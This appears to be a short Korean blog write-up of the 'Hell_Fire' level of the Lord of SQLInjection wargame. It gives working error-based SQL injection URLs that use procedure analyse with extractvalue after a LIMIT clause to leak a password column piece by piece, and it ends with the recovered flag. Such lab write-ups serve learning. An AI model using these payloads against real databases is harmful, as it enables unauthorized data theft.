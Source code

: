 ```yaml
---
layout: post
title: LOS Hell_Fire 
date: 2015-08-16 23:12:00 +0900
category: Hacking 
---
```

```
http://leaveret.kr/los/hell_fire_309d5f471fbdd4722d221835380bb805.php?limit=1%20procedure%20analyse(extractvalue(1,concat(0,(select%20pw%20from%20probhellfire%20limit%201))),1)%23

```

limit 뒤에는 사용할 수 있는 함수가 제한적이다 

procedure analyse()가 사용가능함으로 ```extractvalue```라는 함수를 이용해서 풀음

왠 러시아 형님 블로그가서 찾음 ㅋㅋㅋㅋㅋ



문자열의 길이가 엄청 길기 때문에 여러번 해야 한다.

```
http://los.sandbox.cash/chall/hell_fire_caa31470fa3ada0e8f6bf78cd5730eee.php?limit=2%20procedure%20analyse(extractvalue(0,concat(0x0a,(select%20substr(pw,79)%20from%20probhellfire%20limit%201))),1)%23
```



저기 중간 값을 바꿔가면서 풀면 된다.



```
wwwwwwwwwwoooooowwwwwwwwwwwGodYouNiceHackerrrrrrrrkkkkkkkkkkkkYouDidThisShitLOLLLLLLLLLLLLLLLLLLLLLLL
```









